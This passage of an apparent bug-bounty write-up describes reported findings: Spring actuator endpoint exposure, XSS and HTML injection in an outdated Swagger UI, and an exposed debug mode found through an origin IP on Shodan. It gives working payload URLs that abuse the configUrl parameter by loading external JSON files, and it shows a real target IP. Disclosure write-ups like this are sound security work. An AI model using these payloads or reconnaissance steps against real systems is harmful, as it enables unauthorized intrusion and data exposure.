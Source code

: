 - **/actuator/beans**

The /actuator/beans endpoint provides a full list of all Spring Beans in the application context. This can be dangerous because:

A**pplication Structure Disclosure — Attackers can map out service names, component dependencies, and internal classes, helping in targeted attacks.**

**Sensitive Functionality Exposure — If certain beans are related to authentication, database connections, or API interactions, an attacker may leverage this knowledge to craft more precise attacks.**

That's some of the paths , then i reported it and guess what ? yea its marked as P1 (Critical)

![](https://miro.medium.com/v2/resize:fit:700/1*sGgOiuXfFoiEymGEZMftDg.jpeg)


## The second Bug XSS && HTMLI On swagger UI :

Also when i was searching for the Ips with the title, i saw  ‘Swagger UI’:

I opened it quickly because i already had  a bug which I spoke already about it in that writeup :[https://medium.com/@hamdiyasin135/the-power-of-swagger-ui-docs-broken-access-control-a3b57fb035bd](https://medium.com/@hamdiyasin135/the-power-of-swagger-ui-docs-broken-access-control-a3b57fb035bd)

so here i checked the version of the swagger and noticed that it had an old version and  maybe it was vulnerable to XSS and HTML  **so i searched for the exploit  and discovered that it’s vulnerable in the parameter** `/?configUrl`

that parameter used to load external config to the swagger so used that payload to make the XSS attack [https://target.com/?configUrl=https://xss.smarpo.com/test.json](https://54.202.120.78/?configUrl=https%3A%2F%2Fxss.smarpo.com%2Ftest.json)

![](https://miro.medium.com/v2/resize:fit:700/1*DpxelDv3_V-80QphaLlo6g.jpeg)

And for HTMLi used that Payload `/?configUrl=https://gist.githubusercontent.com/zenelite123/af28f9b61759b800cb65f93ae7227fb5/raw/04003a9372ac6a5077ad76aa3d20f2e76635765b/test.json`


And at the end the bug has been triaged :

![](https://miro.medium.com/v2/resize:fit:700/1*YCGTA7bOkEbR2HeFht0Mqw.jpeg)

## The Third Bug Is Information Exposure Through Debug Information

- while i was testing on subdomains i got a strange one that when i open it i got that error

![](https://miro.medium.com/v2/resize:fit:700/1*udc_vZtbc7zTYP8zhHqWTw.png)

the error told me the debugging mode is not enabled on that subdomain so i got the great idea : what if i searched for the origin ip for that subdomain? **maybe the debugging mode is enabled on it ?**

so i searched for the origin ip for that subdomain on shodan and at the end i got it , and guess what?!, **the debug mode is enabled on it!!!!**
